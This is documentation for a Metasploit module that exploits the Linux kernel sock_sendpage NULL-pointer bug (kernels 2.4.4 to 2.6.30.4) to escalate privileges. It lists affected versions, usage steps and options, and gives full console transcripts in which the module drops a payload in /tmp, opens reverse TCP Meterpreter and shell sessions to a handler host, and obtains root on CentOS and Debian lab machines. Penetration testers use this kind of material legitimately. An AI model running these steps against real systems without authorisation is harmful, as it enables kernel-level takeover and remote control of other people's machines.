 ## Description

  The Linux kernel failed to properly initialize some entries in the
  `proto_ops` struct for several protocols, leading to `NULL` being
  dereferenced and used as a function pointer. By using `mmap(2)` to map
  page `0`, an attacker can execute arbitrary code in the context of the
  kernel.


## Vulnerable Application

  Several public exploits exist for this vulnerability, including
  spender's `wunderbar_emporium` and rcvalle's ppc port, `sock_sendpage.c`.

  All Linux 2.4/2.6 versions since May 2001 are believed to be affected:

  * 2.4.4 up to and including 2.4.37.4
  * 2.6.0 up to and including 2.6.30.4

  This module has been tested successfully on:

  * CentOS 5.0 (i386) with kernel version 2.6.18-8.1.1.tl5
  * Debian 3.1r8 Sarge (i686) with kernel version 2.4.27-3-386


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/sock_sendpage`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **DEBUG_EXPLOIT**

  Enable exploit debug messages. (default: `false`)


## Scenarios

  ### CentOS 5.0 (i386) with kernel version 2.6.18-8.1.1.tl5

  ```
  msf > use exploit/linux/local/sock_sendpage 
  msf exploit(linux/local/sock_sendpage) > set session 1
  session => 1
  msf exploit(linux/local/sock_sendpage) > set verbose true
  verbose => true
  msf exploit(linux/local/sock_sendpage) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/sock_sendpage) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 2.6.18 appears to be vulnerable
  [+] System architecture i686 is supported
  [+] vm.mmap_min_addr is not set
  [*] Writing '/tmp/.MCpzrCREnMXU' (3509 bytes) ...
  [*] Max line length is 65537
  [*] Writing 3509 bytes in 1 chunks of 10560 bytes (octal-encoded), using printf
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (857352 bytes) to 172.16.191.159
  [*] Meterpreter session 34 opened (172.16.191.188:4444 -> 172.16.191.159:37663) at 2018-04-10 06:50:13 -0400

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.159
  OS           : CentOS 5 (Linux 2.6.18-8.1.1.tl5)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

  ### Debian 3.1r8 Sarge (i686) with kernel version 2.4.27-3-386

  ```
  msf > use exploit/linux/local/sock_sendpage 
  msf exploit(linux/local/sock_sendpage) > set payload linux/x86/shell/reverse_tcp
  payload => linux/x86/shell/reverse_tcp
  msf exploit(linux/local/sock_sendpage) > set session 1
  session => 1
  msf exploit(linux/local/sock_sendpage) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 2.4.27 appears to be vulnerable
  [+] System architecture i686 is supported
  [+] vm.mmap_min_addr is not set
  [*] Writing '/tmp/.69p3FeagB' (3509 bytes) ...
  [*] Max line length is 65537
  [*] Writing 3509 bytes in 1 chunks of 10560 bytes (octal-encoded), using printf
  [*] Executing payload...
  [*] Sending stage (36 bytes) to 172.16.191.227
  [*] Command shell session 35 opened (172.16.191.188:4444 -> 172.16.191.227:32836) at 2018-04-10 06:59:08 -0400
  [!] Tried to delete /tmp/.69p3FeagB, unknown result

  3356110123
  lfvaliLFShnAfRQkCHUXFtuyGXKylJSN
  TJloQpOJsrsnQSfZpNAjWcbqNuHanLeI
  LeKIAUjwBMRhxjJjVvvrdvwErYZnxPYr
  id
  uid=0(root) gid=0(root) groups=100(users)
  uname -a
  Linux sarge 2.4.27-3-386 #1 Wed Dec 6 00:38:33 UTC 2006 i686 GNU/Linux
  ```

